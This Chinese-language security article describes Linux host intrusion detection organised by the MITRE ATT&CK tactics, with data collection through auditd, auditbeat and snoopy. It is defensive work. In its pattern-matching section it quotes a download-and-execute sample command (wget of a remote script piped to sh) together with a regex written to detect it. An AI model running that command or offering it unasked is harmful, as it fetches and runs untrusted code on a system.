# ATT&CK矩阵Linux系统安全实践

url：https://www.freebuf.com/articles/es/231784.html

## 0x01 前言

**MITRE在2013年推出了ATT&CK模型，根据真实的观察数据来描述和分类对抗行为。ATT&CK将已知攻击者行为转换为结构化列表，近两年来，也在安全行业中广受欢迎，涌现大量需求岗位，且在未来趋势逐步上升趋势，MITRE提供的“对抗战术、技术和常识”框架逐步落地在入侵检测系统中。昨天在群里看到在了解国外的落地情况，有个比较满意的回答：流量检测+安服，反手就是一个赞。**

## 0X02 入侵检测

落地在入侵检测平台，先大概总结入侵检测的大概思路，入侵检测是指通过对采集来的数据进行检查，并根据观察到的异常事件和数据产生告警的过程，常见做法是对入侵行为的发觉，通过从计算机网络或系统中的若干关键点收集信息，并对这些信息进行分析，对被保护系统进行安全审计、监控、攻击识别以及做出实时的反应。从而发现网络或系统中是否有违反安全策略的行为和遭到攻击的迹象。

一个典型的入侵检测系统至少应包括3个功能模块：

> 提供事件记录流的信息源
>
> 发现入侵迹象的分析引擎 
>
> 于分析引擎的相应部件

### 入侵检测的分类

根据检测所用数据的来源不同，可将入侵检测系统分为以下三类：

**基于主机的入侵检测系统（HIDS）**

> 1.被监测系统的操作系统事件
>
> 2.日志应用程序的事件日志
>
> 3.系统调用日志（syscall）
>
> 4.端口调用
>
> 5.安全审计日志（eventlog）

**基于网络的入侵检测系统（NIDS）**

数据源是网络上的原始数据包，利用一个运行在混杂模式下的网络适配器类实时监视并分析通过网络进行传输的所有通信业务

**基于混合数据源的入侵检测系统（HIDS+NIDS）**

### 通用检测方法

**基于已知攻击的检测**

通过收集非已知入侵攻击的信息（知识、模式等）的行为特征，建立相关的特征库，当监测的用户或系统行为与库中的记录相匹配时，即认为这种行为是入侵，也是ATT&CK矩阵的思路，这种检测误报率低，对计算能力要求不高，局限在于只能发现已知攻击，对未知攻击无能为力，且模式库难以统一定义，特征库也必须不断更新。

匹配模式

已知特征将已知特征转换为模式，存放在模式数据库中，在检测过程中将捕获的事件与模式数据库中的入侵模式进行匹配，若匹配成功则认为有入侵行为发生。如：wget http://test.com/eval.sh-o eval.sh | sh通过正则表达式对这种误用行为模式进行概括描述为wget\s+http:.*(\s+-\w+){0,}\s+-o\s+.*\.(sh|pl)\s*\|sh这里存在着漏报和误报的问题，例如某正常用户管理员可能会执行下列指令，用于自动化的批量运维部署，但是对应一些有着明显的攻击特征可以直接检测，对于这样的现状常见的思路是”升维“或者”维度切换“，在一个维度无法区分的向量，升级到多维度结合判断

IOC检测IOC是可用于客观描述网络入侵事件，以与平台无关方法表示的任意信息片断

> 注册表键值、文件名、文本字符串、进程名、文件哈希、IPv4地址、URL、电子邮件地址

目前通过分析过的IOC来看，存在大量的IOC过期导致的误报事件，解决这个问题的常见方法是继续IOC再关联行为分析，如：邮件文件发现存在恶意hash值的office文件，其IOC事件的用户行为为：下载文件、DLL代码被执行、发起CC连接，匹配对应事件后定义为恶意IOC，但可能存在的情况是未能及时触发行为，导致漏报。

**关联检测**

通过将匹配模式的规则转化成IF-THEN规则，形成知识库，然后，运用推理算法进行检测入侵。编码规则说明攻击的必要条件作为IF的组成部分，当规则的左边的全部条件都满足时，规则的右边的动作才会执行，形成逻辑判断

**基于行为的检测**

先总结正常操作应该具有的特征（用户轮廓），当用户活动与正常行为有重大偏差时即被认为是入侵。所以选取的特征量既要能够准确体现用户行为特征又要能够使模型最优化以最少的特征覆盖用户行为阈值，且需建立正常的特征轮廓并以此作为比较基准，当阀值过大，漏报率高，阀值过小，误报率搞，需要以当前用户行为特征为非正常的行为，且特征轮廓不断更新，时间窗口需要选择合适的频率通常会用UEBA方法论对事件进行建模分析，【攻击者目的：攻击者达到此目的的可能行为步骤：攻击后获得的结果】，如：【系统提权：常见信息收集；上传/下载恶意脚本；凭证窃取；root调用的其低权限文件】，建模扩大了入侵检测的纬度范围，辅助检测，坚解决不好检测和误报高事件。

基于统计的检测

**统计方法先采集信息：**

> 基础信息
>
> CPU信息
>
> 内存信息
>
> 网卡数据
>
> 系统组信息
>
> 系统用户
>
> 设备接入信息
>
> 应用软件信息
>
> ...

**数据信息**

> 网络连接
>
> 文件调用
>
> 进程启动
>
> 监听端口数据
>
> 本地防火墙信息
>
> 计划任务信息
>
> 环境变量信息
>
> 内核模块信息
>
> 历史访问记录
>
> ...

**模型针对信息,统计正常时间测量属性**

> 单位时间连接访问次数
>
> 单位时间内进程启动的种类的次数
>
> 单位时间内文件和系统的调用情况
>
> 范围值内用户登录的时间和次数
>
> 范围时间内进程启动的时间间隔，对应的会话数范围时间内写文件的数量、写文件行为的时间间隔
>
> ...

获取信息的统计量后，进行系统运行轮廓定位，单统计量和多统计量对用户行为进行分析

本文的重点是针对已知攻击的矩阵检测，先放一张图

## 0x03 主机信息采集

在调研了一些主机监控的采集器后，采用了最经典的audit，为了便于数据的标准化输出，采用auditbeat，满足ATT&CK矩阵的70%-80%的检测需求，通sysmon相关能力audit主要分三个模块：

auditd 管理审计规则、自定义auditd规则

system

> 1.通过用户态的管理进程配置规则，并通过 Netlink 套接字通知给内核
>
> 2.内核中的 kauditd 通过 Netlink 获取到规则并加载
>
> 3..应用程序在调用系统调用和系统调用返回时都会经过 auditd 
>
> 4.auditd 会将这些事件记录下来并通过 Netlink 回传给用户态进程。

file_integrity实时监控指定文件系统变化、报告文件元数据与哈希、为文件建立、移动、删除、更新和属性修改生成事件可以实现审计监控的场景

> 1.监控文件访问（识别可疑篡改、文件权限更新）
>
> 2.监控系统调用（二进制文件或共享库调用）
>
> 3.记录用户命令执行（危险命令执行、审计）
>
> 4.记录安全事件
>
> 5.执行审计搜索
>
> 6.统计概要报表
>
> 7.监控网络访问（恶意外联）

## 0x04 基于ATT&CK的入侵检测

snoopy轻量级的lib库，用来激励系统中所有执行过的命令以及参数，实际使用场景中结合snoopy和rsyslog收集所有主机的历史执行命令，snoopy 即是通过 preload 的方式在程序进行 execv() 和 execve() 系统调用的时候记录下所有需要的信息，audit同snoopy，通过监控execve系统调用，同样实现用户的操纵记录，大部分检测通过检测非ROOT用户执行的命令以及进行威胁建模。

### 侦查内容

一次完整的网络渗透，主要分技术业务与信息分析业务。技术侦查能力为业务侦查提供强大的支撑与保证。业务侦查能力为技术业务提供关键的目标信息以及逻辑思维，在强大的HW中，还记得那个在电线杠下的兄弟吗？

### 凭证内容

获取凭证主要从根据用户习惯，从文件中、配置和历史记录中获取凭证，也可通过暴力破解和抓取内存中的明文密码



### 命令和控制

命令行界面提供了一种与计算机系统进行交互的方式，执行的命令以命令行界面进程的当前权限级别运行，在进攻中所采取的所有战术中，应用最广泛的战术莫过于“执行”，而应用白名单是缓解恶意软件攻击时最有用的控制措施，红衣教主讲述故事的时候说到，十年前我们哪会做什么网络安全，做了一层白名单，不在我信任列表里的都杀，没想到效果还挺好

### 持久化

Linux作为服务器和IoT设备使用的主要操作系统，获取权限后通常需要长期驻留于目标操作系统以达到获利目的，下面列举了常见的后门和驻留持久化技术，如增加超级用户账号、放置SUID shell，定时任务、共享库文件、LKM模块等，在应急响应中持久化是最应该关注的战术之一，也是一个比较好的切入点

### 权限提升：

利用系统漏洞达到root级访问权是攻击者核心目标，权限提升，从入门到放弃，但对于检测来说通过检测子进程uid的是否变为0即可

### 横向移动

攻击者在利用单个系统漏洞后，通常会尝试在网络内进行横向移动，横向移动对于域渗透，攻击手法相对较多，在内网中，环境相当较干净，检测通用攻击，能达到较好的效果，自动化攻击的时代，躺着中*，防不胜防

### 清理痕迹

在目前的安全状态下，安全法规定日志需保存6个月以上，且SIEM针对安全信息和事件的管理，也才采集数据，在绕过检测采集以及心跳线检测，无法规避

Linux系统中存在用户态与内核态，以上检测大部分从用户态的攻击角度进行检测，一个恶意的软件，总结三点：隐藏、操纵、收集数据，hook通用技术如下：

> 1.可信任Shell——使用静态编译的二进制文件：lsof、stat、strace、last、……
>
> 2.检测工具和脚本：rkhunter, chkrootkit, OSSEC
>
> 3.LiveCD——DEFT、Second Look、 Helix
>
> 4.动态分析和调试：使用gdb根据System.map和vmlinuz image分析/proc/kcore
>
> 5.直接调试裸设备：debugFS

### **检测**

1.在检测上，目前通过编写了1一系列的auditd规则，获取实践，检测可在传输前如nxlog对数据进行正则匹配、简单关联分析检测，也可在SOC平台上检测，视实际情况而定



## 0x05 结束语

从视觉角度来看，MITRE ATT＆CK矩阵按照一种易于理解的格式将所有已知的战术和技术进行排列，一个攻击序列按照战术，至少包含一个技术，并且通过从左侧（初始访问）向右侧（影响）移动，就构建了一个完整的攻击序列。

从技术角度出发，主要的利用场景如下：

> （1）对抗模拟
>
> （2）红队/渗透测试活动
>
> （3）SOC成熟度评估

那么问题来了？

ATT&CK和普通的评估攻击手法差别在哪？

在攻击和检测中，有什么优势？

仅仅是钓鱼邮件和鱼叉式攻击的区别吗？

本来描述了基于ATT&CK矩阵的主机安全检测的思路通一些实践，对于建模以及行为分析的总结篇，待我学习后归来！